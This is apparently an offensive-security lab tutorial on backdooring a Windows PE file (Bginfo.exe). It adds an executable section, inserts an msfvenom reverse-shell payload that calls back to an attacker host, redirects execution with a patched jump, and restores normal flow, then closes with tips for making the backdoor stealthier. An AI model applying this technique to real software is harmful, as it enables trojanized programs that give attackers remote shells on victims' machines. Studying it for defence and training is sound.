




# Backdooring PE Files with Shellcode

The purpose of this lab is to learn the Portable Executable \(PE\) backdooring technique by adding a new readable/writable/executable code section with our malicious shellcode to any portable executable file.

High level process of this technique:

* Add a new RWX PE section, big enough to hold our shellcode, to any .exe file 
* Generate shellcode
* Add shellcode to the newly created PE section
* Redirect execution flow of the .exe file being backdoored to the shellcode
* Redirect execution flow back to the legitimate .exe instructions

The last two steps are a bit more complicated and will have more details below.

## Groundwork

### Generate Shellcode

First of, let's generate the shellcode so we know how many bytes of space we will need in the new PE section:

```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C
```


Note that the shellcode size is 324 bytes - the new PE section will have to be at least that big.

### New PE Code Section

I randomly chose Bginfo.exe from sysinternals as a binary to be backdoored. Let's add a new PE section called `.code1` that will contain our shellcode - note the size is 200h bytes, so plenty for our shellcode which was only 324 bytes:


Note the Raw Address of the new section which is CD200 - this is where we will place the shellcode inside the file in later steps.

Let's make the new PE section writable/executable and mark it as `contains code` using CFF Explorer:


### Inserting Shellcode

Let's copy the shellcode over to the new code section, starting at 0xCD200 into the file:


### Testing the Shellcode

Let's see if we can force the Bginfo.exe binary to execute our shellcode using debugger first. We need to find the base address of Bginfo.exe, which we see is 0x00400000:


Since the new section .code1 that holds our shellcode has an RVA 000D8000, we can find the shellcode in a running process at 00400000+00d8000 = ‭4D8000‬. Below shows that the bytes at cd200 \(file offset\) match those at 4d8000 while the bginfo.exe is running:


When debugging the binary, if we set the EIP to point to 4D8000‬ and let the debugger run, if we have a listener on the attacking system, we get the reverse shell which confirms that we can successfully execute the shellcode if we manage to redirect the code execution flow of bginfo.exe:




In the above screenshot, `pushad` and `pushdf` are the first instructions at 4d8000 - it's not shown in this lab how those two instructions were inserted there, but there is no magic  - just add   bytes `60 9c` before the shellcode at 0xCD200 in the bginfo and you're set.


## Redirecting Code Execution Flow

In previous paragraph we confirmed the shellcode can be executed, but we did this manually, with help of a debugger. Now let's patch the binary, so that the process is automated and does not require our intervention.

The process of patching the binary to redirect the code execution flow is as follows:

1. Find the first instruction that is 5 bytes in size inside the bginfo.exe binary 
   1. We will overwrite this instruction with a jump to the shellcode as explained in step 2 
   2. Prior to overwriting this instruction, write it down somewhere - we will need to append it to our shellcode later in order to restore the code execution flow
   3. Write down the address of the next instruction to be executed next - after the shellcode has been executed, stack and registers restored, we will jump back to this address to let the bginfo.exe continue as normal
2. Overwrite the instruction in step 1 with a jump to the shellcode at 4D8000‬
3. Save registers' and flags' state by prepending the shellcode with `pushad` and `pushfd` instructions - we do this so we can restore their state before redirecting the execution back to bginfo.exe and avoid any crashes
4. Remember the ESP register value - we will need this when calculating by how much the stack size grew during the shellcode execution. This is required in order to restore the stack frame before redirecting the code execution back to bginfo.exe
5. Modify the shellcode:
   1. Make sure that `WaitForSingleObject` does not wait indefinitely and does not freeze bginfo.exe once the shellcode is executed
   2. Remove the last instruction of the shellcode `call ebp` to prevent the shellcode from shutting down of bginfo.exe
6. Note the ESP value and the end of shellcode execution - this is related to point 4 and 7 
7. Restore the stack pointer ESP to what it was after the shellcode executed `pushad` and `pushfd` as explained in step 3, with `add esp, <ESP_POST_SHELLCODE - ESP_PRE_SHELLCODE>`. This is where ESPs from point 4 and 7 comes in to play
8. Restore registers with `popfd` and `popad`
9. Append the shellcode with the instruction we had overwritten in step 1
10. Restore code execution back to bginfo by jumping back to the next instruction after the owerwritten one as explained in 1.3

### Overwriting 5 byte Instruction

Let's now hijack the bginfo.exe code execution flow by overwriting any instruction that is 5 bytes in size - again - this is how many bytes we need for a `jmp address` instruction.

One of the first 5-byte instructions we can see is `mov edi, bb40e64e` at 00467b29:


**Important**   
We are about to overwrite the instruction `mov edi, 0xbb40e64e` at **00467b29**, hence we need to remember it for later as explained in 1.2.



Let's overwrite the instruction at 00467b29 with an instruction `jmp 0x004d8000` which will make the bginfo jump to our shellcode located at 0x004d8000 when executed:



**Important**  
Remember the address of the next instruction after **0046b29**, which is **0467b2e** - this is the address we will jump back after the shellcode has executed in order to resume bginfo.


There are multiple ways to overwrite the instructions at 00467b29 - either assemble the bytes using a debugger or patch the binary via a hex editor which is what I did. I found the bytes `bf 4e e6 40 bb` \(bytes found at 00467b29 when bginfo is in memory\) in the bginfo.exe \(screenshot below\) and replaced them with bytes `e9 d2 04 07 00` which translates to jmp `bgfinfo.d48000` \(jump to our shellcode, above screenshot\).


Below shows how the code redirection works and we jump to 4d8000 \(shellcode\) location once we hit the instruction at 00467b29:



If we try running the patched binary now, we can see it results in a reverse shell, however the bginfo.exe itself is not visible - we will need to fix that:



### Patching Shellcode

#### Patching WaitForSingleObject

The reason the bginfo.exe is not showing any UI is because the thread is blocked by the shellcode call to `WaitForSingleObject` function \(see definition below\). It's called with an argument `INFINITE` \(-1 or 0xFFFFFFFF‬\), meaning the thread will be blocked forever.

[`WaitForSingleObject`](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject) definition:

```cpp
DWORD WaitForSingleObject(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
```

The below screenshot shows that EAX points to `WaitForSingleObject` which is going to be jumped to with `jmp eax` at 004d8081. Note the stack - it contains the thread handle \(28c\) to block and the wait time FFFFFFFF == INFINITE which is the second argument for `WaitForSingleObject`:


Instruction `dec esi` at 004d811b changes ESI value to -1 \(currently ESI = 0\), which is the value pushed to the stack as an argument `dwMilliSeconds` for `WaitForSignaledObject`:


Let's NOP that instruction, so that ESI stays unchanged at 0, which means that `WaitForSingleObject` will wait 0 seconds before unblocking the UI:


#### Restoring Stack Frame & Jumping Back

Next, we need to patch the `call ebp` instruction at 004d8144 if we don't want the shellcode to close the bginfo.exe process:


We will do this by replacing this instruction with an instruction that will restore our stack frame pointer ESP to what it was before we started executing our shellcode, but after we executed `pushad` and `pushfd` instructions as mentioned in point 7.

From earlier, the `ESP` after `pushad` and `pushfd` was `0019ff30`:


`ESP` after executing the shellcode was `0019fd2c`:


Which means that the stack grew by 204h bytes:

$$
0019ff30 - 0019fd2c = 0x204
$$

Knowing all of the above, we need to:

* restore the stack by increasing the ESP by 0x204 bytes
* restore registers and flags with `popfd` and `popad`
* re-introduce the instruction we previously had overwritten with a jump to our shellcode
* jump back to the next instruction after the overwritten instruction that made the jump to the shellcode

All the above steps in assembly would be:

```cpp
add esp, 0x204
popfd
popad
mov edi, 0xbb40e64e
jmp 0x00467B2E
```

The below screenshot shows the very end of the shellcode with the above instructions encircled:


### Backdoor Demo

If we save the patched binary and launch it - we can see that the reverse shell gets popped and the bginfo.exe is launched successfully:



## Final Note

This technique is not particularly stealthy. Rather than adding a new code section to the binary, it's better to attempt locating large spaces of unused bytes inside existing code sections, called code caves. To further improve stealthiness of this technique, you may want to consider encoding/encrypting your shellcode and executing it when user performs certain interaction with the binary you are backdooring, for example, invokes Help &gt; About dialog box.

## References









